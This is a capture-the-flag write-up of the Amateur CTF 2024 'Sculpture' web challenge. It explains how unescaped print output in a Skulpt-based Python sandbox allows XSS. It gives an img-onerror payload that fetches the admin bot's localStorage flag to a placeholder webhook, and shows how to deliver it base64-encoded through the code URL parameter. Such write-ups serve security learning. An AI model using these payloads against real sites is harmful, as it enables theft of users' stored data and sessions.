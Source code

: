 ```yaml
---
layout: post
title: Amateur CTF | Sculpture
date: 2024-04-12
tags: ['Amateur CTF']
---
```

# Web/Sculpture

## Challenge Description

Client side rendered python turtle sculptures, why don't we play around with them.

Remote (for use in admin bot): https://amateurs-ctf-2024-sculpture-challenge.pages.dev Admin Bot

[index.html](./assets/index.html) | [admin-bot-excerpt.js](./assets/admin-bot-excerpt.js)
## Challenge Overview

![challenge](./assets/images/challenge.png)

The challenge contains a simple input box with a `run` button. According to the challenge description we should be able to run python code and use the turtle module. 

Going through the `index.html` file and doing a bit more research, you can find that the website is using `Skulpt` to execute the python code. The webpage is taken from the documentation of Skulpt -- [Using Skulpt](https://skulpt.org/using.html)

```py
import turtle

t = turtle.Turtle()
t.forward(100)

print "Hello World" 
```

Entering this example code given in the input area runs the code and displays the output.

[output](./assets/images/output1.png)

Analyzing the admin bot, it simply visits the url we provide and stores the flag in the localStorage. So we are most probably required to find an XSS and then retrieve this flag using the admin bot. 

The admin bot also applies a regex to check whether the url we send is starting from `https://amateurs-ctf-2024-sculpture-challenge.pages.dev/`.

## Exploit

Since we can execute python code, my first approach was to try and obtain a RCE by using something like `os module` but that didn't work.

But it was easy to find an XSS once you notice that the `print` commands prints whatever sting we give on the webpage, thus it means we can potentially execute even XSS payloads.

```py
print "<img src=1 onerror=\"alert(1337)\">"
```

And that was the solution. Running this simple payload gives us an XSS.

```py
print "<img src=1 onerror=\"fetch('<Webhook URL>?flag='+localStorage.getItem('flag'))\">"
```

Thus we can use the above payload to send the flag from the localstorage to our webhook. We can check the exploit locally by running the `localStorage.setItem("flag", "flag{testFlag}")` and then running the above exploit to see if we get the flag on our webhook.

![test_flag](./assets/images/test_flag.png)

Now we just need to figure out how to send this code to the admin bot. 

```js
document.addEventListener("DOMContentLoaded",function(ev){
    document.getElementById("yourcode").value = atob((new URLSearchParams(location.search)).get("code"));
    runit();
});
```

In the `index.html` file we can find this code to send the payload using `code` get parameter. And we need to base64 encode our payload.

Thus the final payload we need to send is `https://amateurs-ctf-2024-sculpture-challenge.pages.dev/?code=<base64 encoded payload>`

Sending this to the admin bot gives us our flag.

![Flag](./assets/images/flag_copy.png)
